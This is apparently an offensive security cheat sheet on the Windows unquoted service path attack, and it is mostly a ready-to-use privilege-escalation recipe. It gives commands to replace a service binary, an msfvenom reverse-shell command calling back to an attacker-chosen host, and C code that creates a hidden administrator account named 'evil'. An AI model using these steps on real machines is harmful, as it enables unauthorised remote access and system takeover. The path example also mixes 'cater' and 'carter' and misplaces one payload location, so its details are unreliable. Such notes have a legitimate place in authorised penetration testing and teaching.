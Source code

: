 # Unquoted Service Path Attack

### Identify a writable directory where the target file is located

- If the target file is located in `C:\Program Files\cater\cater_term.exe` we should see if the following a writable:

1. `C:\`, if this is writable we would name the payload `Program.exe`
2. `C:\Program\`, if this is writable we would name the payload `Files.exe`
3. `C:\Program Files\`, if this is writable we would name the payload `carter.exe`
4. `C:\Program Files\carter\`, if this is writable we would name the payload `carter_term.exe` and delete/rename the original `carter_term.exe`

- Steps to rename/delete the file so we can replace it:

1. Rename: `Rename-Item -Path "C:\<Full Path\<File Name>" -NewName "C:\<Full Path\<New Name>"`
2. Delete" `Remove-Item -Path "C:\<Full Path\<File Name>"` and for recusive, add a `-recurse`

- Creating the payload

1. Create a reverse shell executable with msfvenom `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`
2. Create a new administrator account with some compiled C code and use `gcc <program.c> -o <executable name.exe>` to compile it
   ```
    #include <stdlib.h>
    int main ()
    {
      int i;
      
      i = system ("net user evil Ev!lpass /add");
      i = system ("net localgroup administrators evil /add");
      
      return 0;
    }
  ```
